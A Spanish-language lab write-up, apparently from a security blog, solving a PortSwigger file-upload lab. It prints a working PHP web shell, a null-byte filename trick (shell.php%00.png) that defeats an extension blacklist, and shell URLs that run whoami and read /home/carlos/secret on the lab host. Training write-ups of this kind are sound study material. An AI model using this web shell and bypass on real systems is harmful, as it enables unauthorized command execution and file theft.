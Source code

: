 ```yaml
---
title: "Web shell upload via obfuscated file extension"
description: "Laboratorio de Portswigger sobre File Upload Vulnerabilities"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via obfuscated file extension
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser `eludida` usando una `clásica técnica` de `ofuscación`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite, el payload va a ser `shell.php%00.png`, las versiones de php inferiores a la 5.4 son vulnerables a null byte injection `%00`, lo que hace que ignore lo que hay detrás de él y no se interprete

```
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.png"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Vemos que el archivo php se ha subido correctamente y que seha subido con el nombre shell.php ignorando lo que hay detrás del null byte `%00`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_6.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_7.png)

Si accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php%00.png?cmd=whoami` vemos que nos da un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_8.png)

Sin embargo, sin accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que nos ejecuta el comando

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_10.png)

Obtenemos el contenido del archivo secret `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_12.png)
